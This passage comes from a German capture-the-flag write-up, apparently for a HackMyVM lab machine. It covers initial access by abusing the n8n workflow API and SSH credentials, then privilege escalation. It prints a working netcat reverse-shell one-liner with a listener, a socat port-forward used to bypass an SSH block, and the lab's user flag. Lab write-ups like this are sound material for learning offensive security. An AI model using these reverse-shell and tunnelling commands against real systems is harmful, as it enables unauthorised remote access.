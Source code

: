 ## Phase 3: Initial Access (via n8n Workflow Automation)

1.  **n8n API-Interaktion:**
    *   Mit dem gefundenen JWT als `X-N8N-API-KEY` Header wurde die n8n API angesprochen.
    *   `GET /api/v1/workflows` listete einen existierenden Workflow namens "Exploit" auf, der einen "Execute Command"-Knoten mit dem Befehl `id` enthielt, aber keinen Trigger.
    *   Versuche, diesen Workflow direkt zu aktivieren oder auszuführen, scheiterten.
    *   Ein `POST`-Request an `/api/v1/workflows` zeigte, dass neue Workflows erstellt werden konnten.

2.  **SSH-Credential-Konfiguration in n8n UI:**
    *   Die n8n-Weboberfläche (`http://192.168.2.171:5678/`) wurde genutzt, um SSH-Credentials zu erstellen:
        *   **Host:** `172.17.0.1` (Diese interne IP wurde vermutlich beim VM-Start oder durch andere Enumeration als die IP des Docker-Hosts/Containers identifiziert, auf dem n8n läuft).
        *   **Port:** `22`
        *   **Username:** `shawa`
        *   **Private Key:** Der Inhalt der zuvor gefundenen `key.txt`.
        *   Der Verbindungstest innerhalb von n8n war erfolgreich.

3.  **Reverse Shell via n8n Workflow:**
    *   Ein n8n-Workflow wurde erstellt/modifiziert, um die konfigurierten SSH-Credentials zu nutzen und einen Befehl auf `172.17.0.1` auszuführen.
    *   Die erfolgreiche Reverse-Shell-Payload war:
        ```bash
        mkfifo /tmp/f; nc 192.168.2.199 4444 < /tmp/f | sh > /tmp/f 2>&1; rm /tmp/f
        ```
        *(Die Angreifer-IP war `192.168.2.199`)*
    *   Ein `nc -lvnp 4444` auf dem Angreifer-System empfing die Verbindung und gewährte eine Shell als `shawa`.

---

## Phase 4: Privilege Escalation (MOTD/Banner Abuse)

1.  **Shell-Stabilisierung und Enumeration als `shawa`:**
    *   Eine stabilere Shell wurde mit einer weiteren `mkfifo`-Technik auf Port 4445 etabliert.
    *   `id` bestätigte `uid=1000(shawa)`.
    *   Die User-Flag wurde in `/home/shawa/user.txt` gefunden: `HMVHIMNTREAL`.
    *   Das System wurde als Alpine Linux v3.21 identifiziert (`cat /etc/os-release`).
    *   `sudo` war nicht installiert.
    *   `find / -type f -perm -4000 [...]` fand die SUID-Datei `/bin/bbsuid` (wurde nicht weiter untersucht).

2.  **Umgehung der SSH-Blockade mit `socat`:**
    *   Da der direkte SSH-Zugriff blockiert war, wurde `socat` vom Angreifer-Server auf `/tmp` des Ziels heruntergeladen, ausführbar gemacht und gestartet, um Port 2222 auf `192.168.2.171` an `172.17.0.1:22` weiterzuleiten:
        ```bash
        ./socat TCP-LISTEN:2222,fork TCP4:172.17.0.1:22 &
        ```
    *   Ein SSH-Login als `shawa` über Port 2222 mit dem Schlüssel war nun erfolgreich: `ssh shawa@192.168.2.171 -i key.txt -p 2222`.
